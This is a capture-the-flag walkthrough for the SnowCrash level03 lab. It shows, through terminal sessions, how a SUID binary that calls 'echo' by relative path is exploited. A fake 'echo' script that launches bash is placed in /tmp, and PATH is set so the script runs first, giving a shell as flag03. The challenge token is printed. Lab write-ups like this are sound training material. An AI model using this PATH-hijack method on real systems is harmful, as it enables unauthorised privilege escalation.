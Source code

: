 - In `/home/user/level03` we identify a binary `level03` which when launched prints `Exploit me` to the screen. The file has the SUID bit set which means anyone who launches the program will be launching it as the owner `flag03`

```
level03@SnowCrash:~$ pwd
/home/user/level03
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03 
Exploit me
```

- Examine the file using `strings` to identify interesting content. We find the command which prints `Exploit me` to screen. 

```
level03@SnowCrash:~$ strings level03 
<snip>
/usr/bin/env echo Exploit me
<snip>
```

- The command is insecure as it does not include the absolute path of `echo` command, so it is possible to create a fake echo binary and add the path to the `PATH` environment variable so that the fake `echo` script is launched before the intended one is.

- We can write to the `/tmp` directory as current user and prepare a script called `echo` which will run `/bin/bash` when launched

```
level03@SnowCrash:~$ echo '#!/bin/bash' >> /tmp/echo
level03@SnowCrash:~$ echo '/bin/bash' >> /tmp/echo
level03@SnowCrash:~$ cat /tmp/echo
#!/bin/bash
/bin/bash
level03@SnowCrash:~$ chmod +x /tmp/echo
```

- We then add `/tmp` directory to the front of the `PATH` environment variable so the `level03` binary looks for `echo` in the `/tmp` directory
```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

- Now launching `./level03` executes an instance of `bash` as the `flag03` user and get the flag

```
level03@SnowCrash:~$ ./level03 
flag03@SnowCrash:~$ whoami
flag03
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

- We use the token to authenticate to machine as `level04`

```
flag03@SnowCrash:~$ su level04
Password: 
level04@SnowCrash:~$ 
```